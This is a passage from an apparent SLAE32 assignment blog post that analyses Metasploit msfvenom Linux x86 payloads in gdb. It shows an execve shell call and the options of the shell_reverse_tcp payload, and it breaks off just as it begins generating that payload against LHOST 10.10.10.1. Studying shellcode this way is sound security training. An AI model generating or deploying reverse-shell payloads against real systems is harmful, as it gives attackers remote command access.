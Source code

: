 after all arguments are set, then the next instruction is `int 0x80` which is calling the `execve()` syscall. So the full syntax:
{% highlight c %}
execve('/bin/sh', ['/bin/sh', '-c', '/bin/pwd'])
{% endhighlight %}

as we can see the output below, `/mnt/hgfs/slae32/assigment/msfvenom` is the `pwd` command output.
{% highlight nasm %}
gdb-peda$ si
process 2391 is executing new program: /bin/bash
process 2391 is executing new program: /bin/pwd
/mnt/hgfs/slae32/assigment/msfvenom
[Inferior 1 (process 2391) exited normally]
{% endhighlight %}

## 3. linux/x86/shell_reverse_tcp

This shellcode will create shell reverse tcp which will connect to the attacker box and spawn a command shell. To check the list of options for this payload see below:

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/msfvenom$ msfvenom -p linux/x86/shell_reverse_tcp --list-options
Options for payload/linux/x86/shell_reverse_tcp:
=========================

       Name: Linux Command Shell, Reverse TCP Inline
     Module: payload/linux/x86/shell_reverse_tcp
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 68
       Rank: Normal

Provided by:
    Ramon de C Valle <rcvalle@metasploit.com>
    joev <joev@metasploit.com>

Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
CMD    /bin/sh          yes       The command string to execute
LHOST                   yes       The listen address (an interface may be specified)
LPORT  4444             yes       The listen port

Description:
  Connect back to attacker and spawn a command shell
{% endhighlight %}

From the above output we can see that the default value for
- `CMD`   = `/bin/sh`
- `LHOST` = not set 
- `LPORT` = `4444`

let's try to generate the payload with the `LHOST` = `10.10.10.1`.
